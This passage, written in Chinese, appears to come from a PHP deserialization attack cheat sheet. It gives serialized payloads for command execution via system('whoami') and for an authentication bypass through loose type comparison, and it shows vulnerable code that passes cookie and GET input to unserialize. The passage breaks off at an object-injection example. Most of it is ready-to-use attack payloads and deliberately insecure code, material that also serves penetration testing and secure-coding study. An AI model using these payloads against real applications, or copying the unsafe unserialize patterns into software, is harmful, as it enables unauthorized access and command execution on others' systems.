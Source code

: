 利用应用程序内部已有的代码创建有效载荷。

* 基本序列化数据

    ```php
    a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}
    ```

* 命令执行

    ```php
    string(68) "O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}"
    ```

## 认证绕过

### 类型转换

易受攻击的代码：

```php
<?php
$data = unserialize($_COOKIE['auth']);

if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```

有效载荷：

```php
a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```

因为 `true == "str"` 是真的。

## 对象注入

易受攻击的代码：

```php
<?php
class ObjectExample
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```
